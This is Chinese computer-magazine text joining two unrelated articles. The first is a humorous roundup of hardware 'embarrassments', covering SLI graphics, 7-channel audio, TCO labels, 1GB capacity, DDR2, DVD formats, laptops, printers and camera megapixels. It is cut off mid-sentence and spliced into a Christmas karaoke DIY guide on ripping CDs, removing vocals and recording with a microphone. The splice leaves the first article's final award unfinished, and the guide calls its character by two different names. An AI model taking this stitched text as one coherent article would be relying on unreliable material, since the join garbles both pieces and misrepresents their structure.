自从 nVIDIA 收购前霸主 3Dfx 开始，nVIDIA 就正式成为了新一代的显卡霸主。3Dfx 当年得意的 SLI 技术自然会被 nVIDIA 全数接收，并成为 nVIDIA 的一张公开的秘密王牌，至于何时使出只是时机的问题而已。其实大家不妨回顾一下陪伴在我们身边的显卡发展史，从 ISA 到 PCI、PCI 到 AGP，每个接口时代的转变，都承载了一到两个的显卡变革，造就一个新霸主的同时，也让昔日的霸主挥泪离场。nVIDIA 作为 AGP 时代的霸主，在 PCIE 时代中，nVIDIA 正迫切需要打破过去数位前辈的宿命，维护其显卡霸主的地位，使出 SLI 这张王牌也是无可厚非的（注:3Dfx Voodoo2 的 SLI 全称为 Scan-line Interleave，而 nVIDIA 的 SLI 全称 Scalable Link Interface，算法和技术等方面都存在差异，相提并论只是取其大意而已）。但是自从去年 nVIDIA 发布 SLI 以来，这里那里的一大堆限制似乎在告诉我们，nVIDIA 的本意跟当年 3Dfx 极为相似：希望垄断所有利益，透过 GF 显卡和 NF 主板两面夹攻，可谓攻势强劲。还好 nVIDIA 已经及时察觉垄断是不能永远维持下去，已经逐步开放 SLI 技术。

在 nVIDIA 的 SLI 红红火火干了几个月后，不少永远抢在第一线的超级玩家（注：“超级”也通 “超级有米”）也都把最新的 SLI 系统抱回家以后，市面上却出现了单卡双核的显卡，在保持与普通 SLI 性能相当或以上的基础上，价格却比普通 SLI 低！虽然说目前这种单卡双核的显卡未必具备很好的兼容性（可透过 DIY 方式解决），但是鉴于目前 nVIDIA 已受到 ATI 同类产品和技术的压力，nVIDIA 似乎已经不可能对这些单卡双核显卡下禁令了，正所谓 “手心是肉，手背也是肉”，最终导致了这一尴尬时刻的出现。所以，无论你是否是 nVIDIA 的支持者，都实在无须为 SLI 提前付出过多，适当观望和等待，才是智者所为。

### 入围尴尬奖:为电脑设计的 7 声道输出

入围理由:实在想不出来有多少人为电脑配备 7 声道的音箱。

在许多人的脑子里都有着这么一个普遍的观点：追求多、大、强、全。在选购电脑产品的时候，不少朋友依然抱有这样的观点，只要卖东西的 MM 加上这么一句：这个型号比 XX 型号 “多” 了 XX 功能、“强” 了 X%，成功卖出的几率一定会上升 X 倍！

对于现在越来越多支持 7 声道输出的主板来说，我们真正能用到的能有多少呢？其实笑话一句：厂商在没有其他突破点的情况下，就只能拿多声道来出气了，4 声道、5 声道、7 声道……为什么不认真想想究竟什么样的用户才会需要 7 声道？或者说真正有 7 声道输出需求的用户，是不是能满足于主板自带的 7 声道输出的音质和效果？

另一方面，近年来，不少 IT 厂商都在力捧 “多媒体” 这一词，因此，理所当然地，多媒体音箱也从 2.0 变成 2.1，之后就是 4.1、5.1……消费者在厂家的轮番鼓动之下，似乎也以更多的卫星箱数目为荣，4.1 等多声道音箱也自此火了一把！但是火玩过后剩下的是什么？究竟有多少人觉得在电脑房里放上 4.1、5.1 甚至 7.1 音箱不是一种累赘？于是，大家都回到了最为实际的 2.1 时代，更多声道的产品就随之成为了一个最不切实际的尴尬，而该尴尬的启示也十分明显了：够用才是真理。

## 显示器经典尴尬

显示器的尴尬是真正的尴尬，LCD 取代 CRT 的势头不可阻挡，但是 LCD 又没能完美超越 CRT，而且是在最最关键的一个环节上有些说不过去。在市场的大潮推动下，我们消费者何去何从？

### 经典尴尬奖:LCD 并非绝对健康

当选理由:在如火如荼的 LCD 市场上，谁来为用户的视力买单？

对于显示器而言，也许我们应该抛开所有深奥的理论不谈，从一个最终用户的角度出发，只谈实际：健康、效果、能耗。

## 入围尴尬奖：TCO 标牌的价值

入围理由：在市场化的今天，原本象征着环保健康的 TCO 标牌已经渐渐变质。

TCO 认证是一个备受业界认可的认证体系，从最开始的 TCO'92 标准开始，到现在为止已经经历了十多年，随着行业的发展和人们要求的提高，TCO 标准也变得更为严格了。然而，在具备了广泛的的认可和权威以后，TCO 必须面对的第一个尴尬就是冒牌的 TCO 认证标签被随意使用。所幸，对于非法厂家所胡乱使用和宣称的冒牌 TCO 认证，我们可以很容易揭破其西洋镜，只要到 TCO 官方网站一查便知真伪：http://tco.networks.nu/index_publicsearch.htm。

TCO 面对的另一尴尬是来自认证本身所带来的产品成本增加问题。为了通过认证，缴纳认证费用是必然的，此外厂家的生产因受 TCO 标准的严格规定也必然引起成本增加，产品的销售价格自然随之增加。曾经经历过这样的事情，目睹销售人员向顾客推销显示器，同一个型号两个价格，一个是通过了 TCO 认证的产品价格，另一个是没有通过 TCO 认证的价格，后者价格便宜较前者 150 元。销售人员明确说：两个产品绝对是一模一样的，送去认证的产品成本高一些，所以价格高一些，没有认证的价格低一些。

真不知道这是 TCO 的尴尬还是厂商的尴尬。

## 存储世界经典尴尬

我们平时所接触比较多的存储产品不外乎硬盘、内存、光盘、闪存以及存储卡。此次的几位候选者自然也就来自这几方面。其中 DDR2 迟迟难于被大众青睐以及 DVD 刻录标准纷繁混乱都是当下比较公认的尴尬。而真正获奖的则是堪称经典的存储容量游戏：1GB=？

经典尴尬奖：1GB 究竟是多少？

当选理由：一条小河沟里不知道翻了多少船，关键是时至今日还不断有船继续翻。

硬盘厂商为了方便起见，是以人们平时所用的 10 进制来计算硬盘容量，也就是说 1GB（Giga Byte）=1000MB（Megabytes），1MB=1000KB（Kilobytes），1KB=1000Bytes（字节）。但是，在以二进制为换算基础的电脑系统中，1GB=1024MB，1MB=1024KB，1KB=1024Bytes。举例来说，一个厂家标称 40GB 容量的硬盘，其容量应该为 40x1000x1000x1000=40,000,000,000 字节，但是在操作系统中 40,000,000,000 ÷ 1024 ÷ 1024 ÷ 1024=37.2529GB 容量。也就是说，由于计算方式的不同，导致了约 2.75GB 的空间差异，这也是很多初学者奇怪为什么硬盘在格式化之后容量比标称值要小，而且硬盘容量越大，差距越大的原因。

这个经典老尴尬可不光是在硬盘上，它同样也发生在刻录光盘上，目前 DVD 刻录机大行其道，DVD 刻录盘也日渐压过了 CD-R 成为了市场上的主流，而很多初学者在实际刻录中，往往会被 DVD 的容量搞得一头雾水，其实也是由此而起。

## 入围尴尬奖：DDR2 何时能风光？

入围理由：后浪咋就推不动前浪呢？

21 世纪初，DDR 家族以出色的转产成本优势打败了 RDRAM，成为了市场的主流内存标准。如今它的接班人 DDR2 来了，但市场，也就是用户似乎并不愿意让 DDR2 成为主流，尤其是在零售市场，DDR2 的销售迟迟不见起色，价格降得比 DDR 还低。这本身就体现出了一种尴尬。

但细究起来，DDR2 的确有其难言之隐。从设计本身来说，DDR2 的低功耗与更好的稳定性更适合用于笔记本电脑和服务器，但对于更注重性能的 PC 机来说，DDR2 市场启动得有点早，这是由于其本身的设计相对于 DDR 来说并没有像 DDR 相对于 SDRAM 那样有本质的区别。在相同的时钟频率下，DDR 与 DDR2 的数据传输率是一样的，但前者的延迟可以做到更低。因此，从性能角度来讲，DDR2 无疑处于一种尴尬的境地。

不过，DDR2 的尴尬是暂时的，随着时间的推移，DDR 以超频的手段来追逐 CPU 外频的不断提高将越来越困难。那时就是 DDR2 的天下了，而且没有什么再可以与它较量。目前，DDR2-667 就已经体现出这种“垄断”，在这个频率下（时钟频为 333MHz），很少有 DDR 内存可以与之抗衡。虽说有些胜之不武，但业界进步不可阻挡。就像当初的 440BX 芯片组一样，一代经典也不得不因为 CPU 的进步而退出舞台。在这方面，DDR 绝对是一个经典，也因此带来了 DDR2 的尴尬。

## 入围尴尬奖：DVD 刻录标准的三国演义

入围理由：乱！真的很乱！

DVD 标准发展至今，可能连创始者也没想到会是此番景象，只读标准是统一的，但刻录标准呢？DVD-R/RW、DVD+R/RW、DVD-RAM 三大阵营其实也都是有所侧重，但用户并不明白。他们只希望能像 DVD-ROM 那样，只管用就好了。如今，虽然慢慢地由 SuperMulti 格式实现大统，但在电脑商城中，也不时能听见买家询问卖家，“+ 好还是 - 好”，“DVD-RAM 对我有没有用”等等。而某产品刻 + 好还是刻 - 好的问题也经常出现在各大论坛。厂商看了不知是不是会有种尴尬的感觉。

突发奇想，某天，市面上出现了三种电饭煲，电饭煲+R、电饭煲-R 以及电饭煲-RAM，而这三种电饭煲分别只能用东北大米、泰国米、湖南米煮饭，一旦弄混，比如把泰国米放入电饭煲-RAM 的话，就可能会出现煮饭失败的兼容性问题……嗯，我还是吃面条好一些！

## 音箱经典尴尬

多媒体音箱，是大多数人都不太重视的部件。同时，也是大多数人缺乏足够知识的部件。正因如此，也就给了奸商不少做“名堂”的机会。像我们评选出的经典尴尬——频响的猫腻，就是一个历史悠久的尴尬。

经典尴尬奖：频响的猫腻

当选理由：一个毫无意义的“装门面”指标。

频响，是多媒体音箱说明上最重要的参数之一。但是，看这个指标，似乎每个音箱都是可以发出整个可听频段甚至包括超声波和次声波的惊人之作。其实，这里头的“猫腻”很简单。

首先，很多说明用功放的频响代替音箱的频响，而功放的频响要远远比音箱的频响宽得多。其次，频响，即“频率响应”范围，其实是一个没有实际价值的参数，它只是表示这个频率的声音能够在音箱上产生响应。但扬声器能动，并不代表它的声音就能强到被我们听见。只有强度在正负 3dB 之内的频响范围，才是真正有意义的，而这，被称为“频率范围”。但这个数值，是很少有音箱的说明被写入的。频响的尴尬是双重的，不仅是因为它被偷换了概念，更是因为这个参数本身其实就是没有意义的。

## 鼠标与键盘经典尴尬

键盘鼠标作为与我们日常接触最亲密的设备，人体工学在其中扮演了非常重要的角色。那么今天谈到的人体工学，尴尬在何处？

经典尴尬奖：所谓的人体工学

当选理由：五花八门、种类繁多，但都唱着同一首歌：我们是人体工学！

人体工学设计，的确是一种有益于人体健康的设计，但是，这只是在设计正确的情况下……

所谓人体工学设计，全称应该是“人体工程学”，其实它的实质就是在人机界面的设计上，尽量贴近人体的自然形态，这样才能在使用中尽量减少人的疲劳感。但是，每个人的身体情况是不同的，越是进行了充分的人体工学设计的产品，就越只是尽能适应于一部分人。例如微软、罗技的很多人体工学鼠标，都是针对西方人较大的手和较长的手指来设计的，他们用起来非常舒服，我们中国人中却有相当一部分人觉得过大而抓不住。

更有甚者，在很多杂牌厂商中，往往将怪异的设计统统以“人体工学”称之，此时，他们根本就是将人体工学当做了增加销售卖点的噱头甚至设计的遮羞布。像很多笔记本鼠标根本不顾小型鼠标与大型鼠标在使用方法上的区别，简单地将大鼠标比例缩小，这种所谓的“人体工学”还不如干脆不要来的好点。

## 笔记本电脑经典尴尬

随着笔记本电脑的价格下降，笔记本看上去已经成了下一个即将在家庭普及的电脑设备。不过，由于笔记本没有所谓的统一设计标准，所以对于大多数用户来说，无异于一个“黑箱”。这样，在实际中，也就常常会有厂家和用户根本是自说自话的情况。当你把本子拿到手里，才发现不是这么一回事。各种尴尬处境也就不由得出现了。

随着笔记本电脑家庭化和宽屏化，各种所谓针对家庭应用的“影音娱乐”型笔记本成为了新的市场主流之一。但是，这种东西真的很好吗？我们认为，这恐怕是笔记本电脑新时代的第一尴尬。

经典尴尬奖：影音娱乐型笔记本

当选理由：干好本职工作才是王道啊。

既然将影音娱乐作为主打的招牌，那么在普通高性能笔记本的基础之上，这类产品必然有其特殊的设计。一般来说，所谓“影音娱乐型”笔记本，主要是在屏幕和声音系统上经过了专门的设计。采用了大尺寸的高亮度宽屏和较好的声卡与音箱，一般还会支持多声道输出和数字音频输出以及视频输出功能。所以，在视频、音频播放和游戏上，有比普通笔记本更好的效果。有些产品更是提供了不开机听音乐或看 DVD 的能力。

但是，问题在于，即便使用了大尺度的宽屏 LCD，由于笔记本屏幕只能使用一条背光管的先天限制，它的显示效果依然不能与普通的台式机屏幕相比，而就算最好的内置音箱，也不过是最简单的 2.1，要听到比较好的环绕声，依然需要外接庞大的外置音箱。在这些方面，它依然达不到大多数台式机的效果，而价格却贵了很多。

当然，有人会说，所谓“影音娱乐”本来就是和普通的笔记本去比的，不如台式机也完全正常。但这就带来另一个问题——这类笔记本为了取得好的影音效果，大都采用了非常大的LCD屏幕和音响系统，所以其体积重量都非常巨大，某些产品甚至达到了近6千克。这样沉重的笔记本，就算是身高近两米的大个子也不是可以轻松带着走来走去的。由于巨大的功耗，使用电池所能支持的时间也非常短。对于大多数人来说，根本就是当做小型台式电脑来使用的，这是它们所远不如普通笔记本的地方。但既然这样，准系统之类的Mini台式机不是同样小巧，同样可以做有限的携带吗？而Mini台式机的影音娱乐效果则远不是这些昂贵的“影音娱乐”笔记本所能相比的。

## 入围尴尬奖：“凉快”就好吗？

入围理由：“外表冷漠，内心火热”歌可以这么唱，但本本最好不要这么挑。

谁也不喜欢笔记本滚烫，那样的本子用起来肯定是不舒服的。但是，“凉快”的笔记本一定好吗？

我们要知道的是，对于笔记本，无论散热怎么设计，只有将热量传导到空气中，才是真正完成了散热过程，否则只不过是在笔记本自身的内部交换而已。而在单位时间内，能将多少热量传给周围的空气，这才是考量笔记本散热效率的唯一标准。

而对于笔记本来说，要将热量传导给空气，有两种办法——一是使用风扇将热量强行“吹”出去；另一种，就是利用笔记本的外壳作为散热片，将热量散发出去，实际上，近年来流行的铝镁合金外壳，一个主要的用途就是便于散热。

某些笔记本，外壳摸起来很凉，这样的本子就是放弃了后一种散热的途径，这样，它就完全需要风扇来进行热量的散发。风扇强劲还比较好，但如果风扇本身并不强，热量就会在内部积压，外壳摸起来固然是凉凉的，但里头的芯片已经开了锅了。

所以，仅仅是外壳凉快，并不是散热良好。仅使用风扇散热，也会给风扇造成太高的负荷。合理分配风扇和外壳的散热任务，同时，合理进行结构设计，使得人手接触的键盘、腕托等部分不作为高热区域，风扇的出风口不对着人手，在充分利用散热能力的前提下保证用户的使用舒适，这才是合理的散热设计。

## 入围尴尬奖：虚夸的重量与待机时间

入围理由：一台声称1.5公斤重的笔记本电脑，或许还要再配上1.5公斤的东西才能完全正常工作。而待机时间就像批发市场里的服装价格，需要打折、打折、再打折！

一般来说，所谓笔记本的官方重量，指的是笔记本的“纯重”，也就是不计算任何外接设备，将电池、光驱等可更换件换上本型号所能使用的最轻型号（如果可选多种型号的话）所得出的重量。某些不良厂商，甚至会拆掉电池、光驱等，搞到拆无可拆的马虎眼。

但且不说后者，就算比较老实的前者，我们还得到考虑光一个笔记本“裸机”是不成的，除了特殊情况，我们至少得带上电源，还得有一个包来携带笔记本。而如果要求比较多的话，那么鼠标之类也是应该要的。至于什么内置设备都没有的超轻薄笔记本，想要充分发挥功能，要携带的“多余”设备就更多了。这么算下来，搞不好重量会翻上一倍。

另一方面，笔记本的官方待机时间，在实际使用中远远达不到，这似乎不是什么新闻了。但是，很少有人知道这个官方时间和实际时间有多大差异。

实际上，一般来说，所谓的笔记本官方待机时间，就是将屏幕亮度开到最小，不安装任何附加的设备，不做任何操作，甚至还会关闭部分非必要的功能的情况下所出的“纯”待机时间。但任何人都不可能在这种设置下使用笔记本。仅就这个“不做任何操作”就是不可能实现的荒唐条件。一般来说，如果不使用任何节电管理设置，那么我们做正常文字操作的情况下，待机时间至少会比官方时间缩短1/3～1/4，而如果是看电影、玩游戏这种大功耗的操作，那么实际的使用时间会缩短为不到官方宣称待机时间的一半！

## 打印机经典尴尬

目前，全球的打印机产品都是被少数几个大厂商所主导。正因为如此，在这个领域其实很少有比较激进的技术和观点，无论是针式打印机、喷墨打印机还是激光打印机，几大厂商都保持非常严谨和稳妥的发展策略。当然，这也给我们的评选工作带来了一些困难，所以我们只能挑选最大的一个尴尬——打印机，你何去何从？

经典尴尬奖：打印机的左右为难

当选理由：无纸办公时代临近，对打印机而言，这难道不是最尴尬的事情？

回顾打印机在最近二十年来的发展，可以说是一个非常合理的进化过程。虽然上世纪七十年代激光打印机就诞生了，但是在八十年代的中国仍然属于高端四通低端“铅字钉”打印的时代。直到八十年代末九十年代初，爱普生的1600K把针式打印机推到了巅峰。进入九十年代中期，喷墨打印机以迅猛的势头冲进了中国家庭用户的视线。而低价位的激光打印机市场也在中小型企业和SOHO一族中悄然兴起。

到目前为止，市面上比较流行的打印机包括：针式（点阵）打印机，喷墨打印机，激光打印机、热转换（热升华）打印机几个大的分类。从目前市场来看，彩色喷墨打印机的代表厂商有：爱普生、佳能、惠普、利盟等。激光打印机代表厂商有：爱普生、佳能、惠普、利盟、松下、施乐、OKI等，国内也有联想、方正等厂家积极进取。

对于打印机的历程和目前的格局，想必大家已经有个大致的了解，那么我们从接下来的几段对话中看看它的尴尬何在吧！

> “把资料打印一下发给大家，我们准备开会”
> “不用了，PPT里都有数据，大屏幕上一目了然”
> （画外音——老板：有投影机了，谁还给我浪费纸张钱的，当月奖金全扣掉……^_^）

> “上次出游的照片给我看看啊！”
> “做成电子相册发你信箱了”
> （画外音——奶奶于卧室：我床都下不了了，你还指望着我坐到电脑前面去摆弄那个机器啊，能不能简约一点啊？）

> “把数据汇总一下给我打印一份我要看”
> “你还是登录ERP系统吧，查询比对都比较方便”
> （画外音——老板：我马上出去开会，想带在路上看的！）

事实就是如此。此时此刻，成千上万台打印机仍然工作在大大小小的办公室、写字楼里。谁也不敢说这些东西已经没用，可是数字化与互联网的飞速发展又实实在在地削弱着打印机的应用价值。在即将沦为鸡肋的时刻，打印机何去何从？

## 数码相机经典尴尬

数码相机发展至今，已经比较成熟，厂商众多，产品芸芸。但是对于一个要用了再知道好坏的产品而言，在售前影响大家做购买决定的就只有参数了，所以现在的数码相机某种程度上就是参数的比拼。作为所有参数中最重要的一个参数——像素，它决定着相机的档次以及影响着我们消费者的腰包。可是在盲目追捧像素的时候，很多人忽略了CCD尺寸这个更为关键的东西。如果把一个6寸的比萨切成5片你没能吃饱，那么切成10片就能吃饱了吗？

经典尴尬奖：像素就是一切？

当选理由：吃得饱吃不饱取决于比萨的大小而不是切分的份数。

毫无疑问，就像CPU用频率作性能的标志，显卡用像素填充率作换代的标志一样，数码相机的像素，似乎也是决定了数码相机性能的第一指标，至少在众多厂商的宣传中，是力图给人这样的印象。但实际上呢？

其实，看一看专业的单反相机就明白了。

低档的单反相机，它们的像素数往往比高档的普通DC还要低，但价格却高得多。难道是这些单反相机性价比奇差，效果还不如普通DC？当然不是这样。

数码相机的像素，其实影响的主要是照片的尺寸，早期的低像素相机之所以效果不好，一个主要原因是它们的照片不足以放大到照片纸上时还能保证足够的精度（当然不是唯一的原因）。但对于现在的高像素相机来说，除非你准备洗婚纱之类的巨型照片，否则像素的多寡早已不会影响拍摄的效果。

单反相机，它们的像素数也许不如普通DC，但它们的CCD或CMOS等感光元件的尺寸比DC大得多。这样，它们的一个像素感光元件的面积要比DC的大很多。更大的感光元件，就能获得更多的光线照射，其分辨能力就会表现得越强，而且像素感光元件的尺寸越大，相互之间的干扰也就越小。所以，尽管像素比较少，但它们拍摄出的照片效果也就会越好。

同时，CCD或CMOS的尺寸大，相应要求镜头的尺寸也必须比较大，而较大口径的镜头，能够获得更高的入光量，这也是单反相机效果比较好的原因。

其实，早先曾经发生过这样的事情——某款著名数码相机的改进版采用了比原型号像素数增大但尺寸一致的CCD，其他和原型完全一致。结果用户发现，这款相机除了在拍摄的照片尺寸上增大了以外，画面质量反倒不如原来的型号。这就是“像素崇拜”的一个有力驳斥。

## 入围尴尬奖：高ISO的指标游戏

入围理由：只有拍出来才知道有啥意义。

ISO是从胶卷借来的概念，表示感光元件的感光能力。简单地说，较高的ISO设置下，CCD或CMOS的感光速度更快。这样，在外界光线较弱的情况下，就可以用较高速的快门来完成拍摄。但代价就是画面很粗糙。

高ISO主要是为了在很黑暗的情况下还能拍摄照片，但对于过高的ISO设置来说，在这种情况下拍摄的照片只怕已经是“雪花遍地”了。其实，调大光圈，使用较长的快门速度，用低ISO同样可以拍摄，效果却要好得多，只不过比较麻烦点罢了。

真正说起来，这样的高ISO，只有一种情况下才有价值——外界光线极弱（几乎接近野外深夜的水平）、要拍摄高速照片而又不能使用闪光灯。但对于绝大多数用户来说，这种机会简直太少见了。

## 入围尴尬奖：毫无价值的数码变焦

入围理由：仅作望远镜用，可是望远镜才多少钱一个啊！

数码影像设备的变焦，包括光学变焦和数码变焦两种。一些低档设备上，干脆只有数码变焦。但很可惜，数码变焦，对于数码相机来说，实际上是没有什么意义的。

光学变焦是通过光学镜头来进行的，这种变焦由于放大了拍摄画面的细节，不影响照片的画质。而所谓数码变焦，其实就是以照片的中心点固定，对一个范围内的照片作直接的插值放大，其原理和我们在Photoshop或ACDSee里放大图片是没有任何区别的。

数码变焦在本质上没有为照片增加新的细节，只是简单地把一个像素的信息扩展到邻近的几个像素而已。所以它的照片精度反倒会比原来的照片下降。实际上，因为它不过是简单的“图片放大”，那么在电脑上用Photoshop进行处理的效果，会比数码相机的芯片处理得好得多。

## 整机经典尴尬

对整机而言，如果要说技术或者概念上有些什么尴尬，似乎不太好挑选。毕竟整机也就是所有部件的组合体。那么我们自然而然想到了厂商们宣称的整机与组装机最大的不同点——服务。专题接近尾声，我们倒不是想拿整机开涮，仅望博君一笑尔。

经典尴尬奖：客服的幽默感

当选理由：看上去可笑的事情往往隐含着# 这个圣诞夜 谁在为你歌唱

## ——最浪漫圣诞礼物完美DIY方案

### 一首好歌代表我的心

网豆：神啊，你简直就是我的神，这么好的点子也能想出来，我们赶紧开始DIY礼物吧！

神秘人：别急别急，开始之前还有很多准备工作要做。

网豆：比如？

神秘人：比如你应该挑选一首真正适合的好歌。怎么挑选参看“神秘人挑歌四不要”。

网豆：哦，很有先见之明啊！我选《月亮代表我的心》没问题吧？

神秘人：哈哈，选什么随便你，不过老情歌确实更容易打动人。

网豆：我没有这些歌的伴奏音乐怎么办？

神秘人：这个好办，我们有几个办法来搞定。第一，通过一些音乐制作软件照着谱子自己制作，比如自带一百多种乐器音效的《键盘乐器》；第二，从一些网站上下载现成的卡拉OK伴奏，比如卡拉88网站（http://www.pg168.com/）；第三，通过DART Karaoke Author、Cool Edit、MTU Vogone等软件将歌曲中的人声去除。

### 遍寻网络

网上搜寻mp3的网站很多，神秘人推荐几个自己比较喜欢的站点给大家：
http://www.chinamp3.com 歌曲相当丰富的索引站点
http://music.yisou.com 3721的在线音乐搜索引擎
http://mp3.baidu.com 百度的音乐搜索引擎

### CD音乐信手拈来

如果寻遍网络也找不到所需要的歌曲呢？那么去买张带有这首歌的CD吧，为了讨MM欢心，一张CD算得了什么。目前抓取CD音轨的软件很多，但是遵循成本最小化，利益最大化的基本原则，我们就使用Windows自带的Windows Media Player来完成这项工作。

第一步：打开Windows Media Player 10（目前最新版本为10，如果还在使用的老版本的播放器，可以升级到最新版本，官方下载地址：http://www.microsoft.com/downloads/search.aspx?displaylang=en&categoryid=4），点击上方菜单中的“工具→选项”，进入“翻录音乐”栏。

第二步：设置好文件输出路径后，将下面的“格式”更改为“mp3”，Windows Media Player会自动将码率设置为128 Kbps，正是当前比较流行也是相对合理的码率，不用管它，点击“确定”完成设置。

第三步：将CD放入光驱，Windows Media Player会自动开始播放，停止它，然后点击菜单中的“文件→CD 和设备→翻录音频 CD”，这时可以在扩展菜单中看到光驱盘符以及CD信息，打开它，CD中的所有曲目赫然出现在眼前。

第四步：这些曲目是没有标题的，根据CD上的歌曲序号，找准相应的曲目，然后取消掉所有其他曲目前面的复选按钮，只保留我们想要抓取的歌曲。

第五步：最后点击上方的“翻录音乐”按钮，Windows Media Player就开始自动抓取音轨并将其转换为mp3文件了。

### “喧宾夺主”去原声

网豆：搞定搞定，一切都很容易嘛。

神秘人：完成了歌曲的获取工作，不过先别高兴太早，最头痛的问题来了，如何完美地去除音乐中的原唱你知道么？

网豆：我倒是听说过不少这方面的工具，DART Karaoke Author、Cool Edit、MTU Vogone等等。

神秘人：在过去的《电脑爱好者》杂志上也陆续对这些软件做过介绍，网豆你可以去找来看看，今天我们先挑重点说。

网豆：好，是说说著名的Cool Edit么？

神秘人：NO，Cool Edit确实是非常专业的工具，也能够顺利完成去除原声的任务，不过呢……

网豆：我就知道有“不过”，是不是担心网豆太“网”玩不转？

神秘人：哈哈，那倒不至于，只是在去除原声方面DART Karaoke Author可以更简单一些。

网豆：最后的效果上有影响么？

神秘人：嗯，这和去除原声的原理有关系，使用什么软件在原则上是不会影响效果的，关键还是看怎么去调试。

### 软件去除原唱的原理

一般人嗓所能发出的声音只会在一定的频率范围之内，而软件处理的方法就是把人声的部分频率去除从而获得伴奏音乐。这样在去除人声的时候也会对这些频率范围内的伴奏音乐带来一些影响，常见的结果是高音和低音特别强，中音却很弱。当然利用Cool Edit这类专业音频编辑软件可以更好地剥离人声和伴奏，但是复杂程度也非常高。

### 清除原唱不求人

也许去除歌曲中的原唱有无数种办法，但是这肯定是非常快捷的一种。

第一步：安装并运行DART Karaoke Author，画面上会出现一个向导窗口。然后“下一步”，点击“浏览按钮”选择你准备好的mp3文件（歌曲选择好以后，点击“播放”按钮可预览该歌曲）。

第二步：接着点击“下一步”，画面上会出现一个扫描歌曲的进度框，待其完成扫描后还可以导入歌词或自写歌词，不过我们化繁为简，到这里就可以点击右下角的“关闭”按钮结束歌曲的导入工作了。

第三步：界面最中央的窗口显示的是歌曲的波形，点击上方的“消除原唱编辑”按钮，会出现详细的调节面板；每一首歌曲所需要设置的参数都不尽相同，这里需要我们一边试听一边调节。

第四步：消除原唱界面的上部有一个带绿框的灰色条，拉动绿色框的位置并且调整宽度，可以选取歌曲中我们需要试听的部分。然后以“框选范围”方式来试听结果。

第五步：把“衰减度”滑动条拉到中间的位置，进行试听，如果觉得原唱声音太明显，就向右边挪动滑块，然后再试听，反复调整。这里要注意一点，滑块越往右，虽然原声越来越小，但是整个音乐文件的质量也会随之下降，所以我们不光是听原声消除的情况，还要留意整体音质，切不可为了消除原音而过分损失伴音质量。

第六步：“低音补偿”滑块用于增强低音效果，使音质经过调整损失后仍不至于干巴巴的，滑动条越往右拉低音效果越强。适当提高低音会让我们的音乐更有节奏感，在演唱的时候也更容易找到节拍，但是如果过分加强低音，也会导致伴奏音太“糊”，反而不清晰了。

在反复的调试和试听中，闷豆自己感觉越来越满意了。

### 神秘人消音诀窍

消除原声的时候，不必刻意强求将声音彻底消掉，这样会导致音乐严重失真。为了降低失真度，完全可以不必彻底把原声消除干净，留下一点点不但不会影响我们演唱时的效果，有时候还会让我们重新录制的效果更好，让声音不显单薄。

### 想唱就唱 超级我声

闷豆：太完美了，我们可以开始唱了吧？

神秘人：当然可以开始了；不过还得做好足够的准备工作。

闷豆：准备工作？你是说的润喉糖？

神秘人：这当然是需要的，不过可不光是这些。还有几个问题要引起注意。

闷豆：神啊，我洗耳恭听。

神秘人：要制作一首效果出众的翻唱歌曲，硬件设施的性能将起到决定性作用。基本的硬件配置包括麦克风、声卡，还有耳机和音箱。麦克风是声波转换为电波的关键性器件，按麦克风的结构不同可分为动圈式麦克风、电容式麦克风、压电式麦克风、丝带式麦克风四种……

闷豆：饶了我吧，说点我能听懂的……

神秘人：哦，简单说，最好不要用那种便宜的塑料耳麦，稍微好一点点的麦克风能够让我们的歌声更饱满而有细节。

闷豆：我倒是有那种VCD机上的话筒，但是跟电脑连不上。

神秘人：标准卡拉OK话筒是直径6.3mm的插头，普通声卡提供的是直径为3.5mm的接口，所以需要一个6.3mm转3.5mm的转接头，这种转接头很多音响器材店或者电脑城中专门卖线材的柜台都有卖。

闷豆：还有其他问题么？

神秘人：当然，听我慢慢道来。

### 五大要素 保完美歌声

1.  录音环境要求静（包括电脑风扇这些都要考虑），这样能保证录音的底噪小，录音环境还要求吸音，这样才能保证原始声源发出后环境的反馈信号对原始信号的影响最小，录出来的声音越干净后期处理效果就越好；话筒越好，频响范围越宽，录出的声音更饱满，对细节的捕捉越细腻，还原声音就越真实；
2.  音频插孔和连线的任何接触不良对录音音质的影响可能是致命的。对业余的声卡来说，把MIC接到Line in接口上受到的干扰往往会低于接到MIC接口上；
3.  音频接口（声卡）很重要，采样精度高低和采样频率大小决定音频质量的好坏，在音频领域，精度用bit来表示，采样频率用KHz来表示；16bit/44.1KHz代表CD音质，及采样精度为16bit，采样频率为44.1KHz。这个就像我们视频领域的颜色深度，媒体流码率一样好理解，就不多说。普通声卡最高只支持16bit/44.1KHz，创新声卡SB LIVE!系列改用KX驱动能达到16bit/48KHz（DVD音质）。当然，这些参数不是衡量录音质量的唯一标准，还和声卡的做工、内部电路的设计有很大关系，业余声卡内部就有噪音，对原始干净的信号形成所谓声染，所以你听到的业余声卡录出的声音和回放的声音都是不完全真实的，对比专业声卡像蒙了一层感；
4.  喷麦是比较普遍的现象，就是当遇到声母是b（波）、p（坡）这种字的时候，由于口腔内吐出的气流过强，会导致录下来的音带有“扑扑”的声音，所以MIC上最好罩一个防喷罩。如果实在找不到，找块布套在麦克风上就可以了，当然，别挑羽绒服、运动服那种不透风的材料；

### 神秘人防喷麦绝招

对于我们这些非专业人员来说，喷麦是不可避免的，有时候防喷罩也罩不住，这时候还有最后的绝招——把麦克风倒过来。麦克风头冲下，我们倒拿着它，然后举起来，让麦克风的头部和我们的嘴持平，这样就不会受到气流的影响了。

5.  由于多轨录音软件的录入音质都很高，所以录入生成的文件都非常的大。所有在编辑时删除的录音部分都以临时文件的形式保存着。这些文件极占空间。所以你在录完一首歌，确定不需要再改动之后，应该将录音生成的临时文件全部删除。在录音前也应该先修改录音文件的路径，将路径安排到比较空闲的硬盘分区中。以免录音时出现空间不够的情况（如果录入的音轨比较多的话，起码预留1GB以上的空间）。

闷豆：神啊，是不是太专业了点。

神秘人：我还没跟你讨论前置的问题呢。

闷豆：饶了我吧。

神秘人：当然，对于我们这些普通爱好者来说，量力而行，尽量注意就是了。

闷豆：嗯，这样说就好办了，接下来总该开始录音了吧？

神秘人：安装好Cool Edit Pro了么？好了就可以开船啦！

### 神秘人小提示

Cool Edit Pro录音的时候会占用很大的磁盘空间，所以为了避免出现磁盘空间不够的情况，在开始录音之前应该设定好临时文件的保存位置。在Cool Edit Pro的主菜单栏选择“选项→设置”，选中“系统”选项卡进行调整。

### 精雕细琢 歌声更完美

闷豆：找歌、去原声、准备麦克、安装Cool Edit……各项工作都准备好了，现在我可以亮亮嗓子了吧？

